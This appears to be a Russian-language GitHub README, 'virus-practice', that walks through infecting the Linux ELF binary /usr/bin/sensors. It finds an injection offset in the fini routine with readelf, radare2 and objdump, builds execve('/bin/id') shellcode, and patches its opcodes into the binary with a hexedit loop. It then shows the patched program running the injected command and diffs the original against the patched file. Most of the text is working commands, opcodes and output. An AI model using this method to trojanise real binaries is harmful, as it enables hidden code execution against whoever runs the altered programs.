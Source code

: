 # virus-practice
Опишу практику заражения файлов elf в linux
Наш подопытный: /usr/bin/sensors

Для начала нам нужно убедиться, что программа не скомпилирована с бит защиты -fPIC. Для этого ищим в headers поля .got.plt (мы же не хотим исполнить команду в области памяти и получить segmentation fault):
````
readelf -a sensors|grep ".got.plt"
  [22] .got.plt          PROGBITS         0000000000006fe8  00006fe8
   05     .init_array .fini_array .data.rel.ro .dynamic .got .got.plt .data .bss 
   12     .init_array .fini_array .data.rel.ro .dynamic .got .got.plt 
````
00006fe8 - очень хорошо. Сразу узнаем смещение для инъекции
```
r2 -A /usr/bin/sensors
afl
0x000027f0    5     55 entry.fini0
q
objdump -d /usr/bin/sensors|grep -A2 "27f0"
    27f0:	f3 0f 1e fa          	endbr64
    27f4:	80 3d a5 48 00 00 00 	cmpb   $0x0,0x48a5(%rip)        # 0x70a0
    27fb:	75 33                	jne    0x2830
```
Смещение удачное у нас будет в a=0x000027f4 (запомнили)

Выбираем что будем инъектить. У меня будет выполнение команды /bin/id

Вот вам скрипт для перевода в hex
```
 odity@viva  ~/bin/elf  cat rev.py          
def rev_str(s):
    return s[:: - 1]
s = '/bin/id'
s= rev_str(s)
for i in s:
    t=hex(ord(i))
    print(t[2:])

```
Выполянем его и получаем ...
```
✘ odity@viva  ~/bin/elf  python rev.py|tr -d '\n'
64692f6e69622f%      
```
Почемуем строку в syscall-id.asm  и собраем его.  Вообще это лишнее,чтоб вам было понятнее что куда брать. Собрали, потом из исполняемого файла syscall-id получаем opcode команд наших:
```
objdump -d syscall-id
изассемблирование раздела .text:

0000000000401000 <.text>:
  401000:	48 31 d2             	xor    %rdx,%rdx
  401003:	52                   	push   %rdx
  401004:	48 b8 2f 62 69 6e 2f 	movabs $0x64692f6e69622f,%rax
  40100b:	69 64 00 
  40100e:	50                   	push   %rax
  40100f:	48 89 e7             	mov    %rsp,%rdi
  401012:	52                   	push   %rdx
  401013:	57                   	push   %rdi
  401014:	48 89 e6             	mov    %rsp,%rsi
  401017:	48 31 c0             	xor    %rax,%rax
  40101a:	b0 3b                	mov    $0x3b,%al
  40101c:	0f 05                	syscall
```

Вот начиная от 48 до 05 выписываем  opcode  и через мою утилиту hexedit генерируем инъекцию.... (последним будет opcode с3)

```
a=0x000027f4;for i in $(echo "48 31 d2 52 48 b8 2f 62 69 6e 2f 69 64 00 50 48 89 e7 52 57 48 89 e6 48 31 c0 b0 3b 0f 05 c3"); do printf "./hexedit sensors 0x0000%X 0x%02X\n" $(($a)) "0x"$i; a=0x0000$(([##16] $a+0x1));done
```
Смещение 0x000027f4 узнали ранее. Выполняем скрипт и потом уже сам файл и...

```
 odity@viva  ~/bin/elf  ./sensors 
coretemp-isa-0000
Adapter: ISA adapter
Package id 0:  +22.0°C  (high = +84.0°C, crit = +100.0°C)
Core 0:        +19.0°C  (high = +84.0°C, crit = +100.0°C)
Core 1:        +21.0°C  (high = +84.0°C, crit = +100.0°C)
Core 2:        +19.0°C  (high = +84.0°C, crit = +100.0°C)
Core 3:        +19.0°C  (high = +84.0°C, crit = +100.0°C)

acpitz-acpi-0
Adapter: ACPI interface
temp1:        +27.8°C  
temp2:        +29.8°C  

uid=1000(odity) gid=1000(odity) groups=1000(odity),958(libvirt-qemu),959(libvirt),992(kvm),998(wheel)
```
# PROFIT

Сравниваем исходный файл с крякнутым.

```
640,642c640,642
< 000027f0: f30f 1efa 4831 d252 48b8 2f62 696e 2f69  ....H1.RH./bin/i
< 00002800: 6400 5048 89e7 5257 4889 e648 31c0 b03b  d.PH..RWH..H1..;
< 00002810: 0f05 c315 a047 0000 e863 ffff ffc6 057c  .....G...c.....|
---
> 000027f0: f30f 1efa 803d a548 0000 0075 3355 4883  .....=.H...u3UH.
> 00002800: 3db2 4700 0000 4889 e574 0d48 8b3d f647  =.G...H..t.H.=.G
> 00002810: 0000 ff15 a047 0000 e863 ffff ffc6 057c  .....G...c.....|
```
